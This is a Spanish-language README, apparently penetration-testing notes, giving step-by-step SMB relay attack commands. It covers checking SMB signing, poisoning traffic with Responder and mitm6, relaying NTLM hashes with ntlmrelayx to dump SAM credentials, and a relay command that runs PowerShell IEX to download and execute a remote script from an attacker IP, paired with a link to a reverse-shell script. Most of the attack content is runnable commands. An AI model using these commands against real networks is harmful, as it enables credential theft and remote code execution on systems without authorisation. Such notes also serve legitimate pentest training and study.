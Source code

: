 # Qué es un SMB Relay?

- En vez de crackear hashes obtenidos con el Repsonder, podemos pasar esos hashes a alguna máquina específica para ganar acceso.
- Es necesario que el SMB no esté firmado para que no se de validado la legitimdad del origen.
- Las credenciales que se le pasen a un equipo deben ser de un Administrador del mismo.

# Explicación gráfica del vector de ataque

[Ver la imagen](Images/main/README.md)

# Como ver si el smb está fimado

```
crackmapexec smb <target>
```

[Ver Ejemplo](Images/firma/README.md)


# Comprobar si tus credenciales son privilegiadas sobre un equipo

```
crackmapexec smb <target> -u 'USUARIO' -p 'CONTRASEÑA'
```
[Ver Ejemplo](Images/creds/README.md)


# Configurar Responder para SMB Relay
HTTP y SMB deben estar en Off en la configuración del Responder

```
sudo nano /usr/share/responder/Responder.conf
```
<img src="https://i.imgur.com/XypgqGB.png" />

# Efectuar un SMB Relay por IPv4
El Responder debe estar activo envenenando el tráfico de la red,
```
python /usr/share/responder.py -I tun0 -rdw
```
```
ntlmrelayx.py -tf <targets.txt> -smb2support
```
[Ver Ejemplo de dumpeo de SAM](Images/sam/README.md)

# Ejecutar comandos mediante un SMB Relay por IPv4
```
ntlmrelayx.py -tf <targets.txt> -smb2support -c "powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.0:8000/PS.ps1')"
```
[Descargar shell de Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

# Ejecutar comandos mediante un SMB Relay por IPv6
Primero envenenamos el dominio con `mitm6` para luego entrar en una sesión interactiva con `ntlmrelayx` y mediante el comando `socks` podremos ver las conexiones y el `AdminStatus` de los usuarios. En el caso de obtener un usuario con `AdminStatus True` podremos  añadir en la sección `[ProxyList]` de proxychains `socks4 127.0.0.1 1080`
y luego ejecutar cme con proxychains y dumpear la SAM del equipo sin saber la contraseña.
```
mitm6 -d <dominio>
```
```
ntlmrelayx.py -6 -wh <ip_atacante> -t smb://<ip_victima> -socks -debug -smb2support
```
```
proxychains cme smb <ip_victima> -u 'usuario' -p 'daigual' -d 'NombreDelDominio' --sam 2>/dev/null
```

